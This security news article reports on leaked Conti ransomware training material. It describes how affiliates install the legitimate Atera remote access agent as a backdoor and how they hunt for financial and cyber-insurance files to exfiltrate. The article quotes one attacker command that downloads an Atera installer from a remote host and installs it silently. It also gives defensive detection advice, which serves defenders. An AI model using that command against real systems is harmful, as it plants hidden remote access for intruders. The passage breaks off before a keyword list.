 


Training material used by Conti ransomware affiliates was leaked online this month, allowing an inside look at how attackers abuse legitimate software and seek out cyber insurance policies.
Earlier this month, a disgruntled affiliate posted to a hacking forum the IP addresses for Cobalt Strike C2 servers used by the gang and a 113 MB archive containing training material for conducting ransomware attacks.

Forum post from disgruntled affiliate
Using this leaked training material, security researchers, network admins, and incident responders can better respond to attacks and quickly find common indicators of compromise (IOCs) used by the ransomware gang.
This is exactly the case with new research released by Advanced Intel's CEO Vitali Kremez that illustrates how actual Conti attacks utilized the leaked information.
Legitimate remote access software used as backdoors
An interesting tactic used by the ransomware gang is using the legitimate Atera remote access software as a backdoor for continued persistence.
When conducting an attack, ransomware operations commonly deploy Cobalt Strike beacons that the attackers can use to execute commands remotely and gain continued access to a network.
However, security software products have become more adept at detecting Cobalt strike beacons, leading to a loss of access for the threat actors.
To prevent this, Kremez states that the Conti gang is installing the legitimate Atera remote access software on compromised systems, which the security software won't detect.

Conti ransomware attack flowSource: Advanced Intel
Atera is a remote management service where you deploy agents to your endpoints so that you can manage them all from a single console. By deploying agents to all compromised devices on a network, the Conti threat actors will gain remote access to any device from a single platform.
Kremez states that they have seen the following command used by Conti affiliates to install Atera on a compromised device:

shell curl -o setup.msi "http://REDACTED.servicedesk.atera.com/GetAgent/Msi/?customerId=1&integratorLogin=REDACTED%40protonmail.com" && msiexec /i setup.msi /qn  IntegratorLogin=REDACTED@protonmail.com CompanyId=1	
"In most of the cases, the adversaries leveraged protonmail[.]com and outlook[.]com email accounts to register with Atera to receive an agent installation script and console access," explained Kremez in a blog post about Conti using Atera.
Kremez advises admins to use whitelisting tools to block or audit command-line tools such as 'curl' to detect malicious activity.
"Audit and/or block command-line interpreters by using whitelisting tools, like AppLocker or Software Restriction Policies with the focus on any suspicious “curl” command and unauthorized “.msi” installer scripts particularly those from C:\ProgramData and C:\Temp directory," advises Kremez.
Conti targets insurance, banking files
One of the leaked documents titled 'CobaltStrike MANUAL_V2 .docx' details the specific steps that an affiliate should use when conducting a Conti ransomware attack.
After the first stage of the attack, which is to breach the network, gather credentials, and gain control of the Windows domain, the threat actors tell their affiliates to start exfiltrating data from the compromised network.
This stage is essential for the attackers, as files are not only used to scare victims into paying a ransom, but stolen accounting and insurance policy documents are also used to generate the initial ransom amount and perform negotiations.
When first exfiltrating data from the victim's servers, the Conti ransomware gang will specifically look for documents related to the company's financials and whether they have a cybersecurity policy.
"search by keywords. need accounting reports. bank statements. for 20-21 years. all fresh. especially important, cyber insurance, security policy documents," reads the translated Conti training document.
In particular, the threat actors look for the following keywords as part of their first data exfiltration steps:
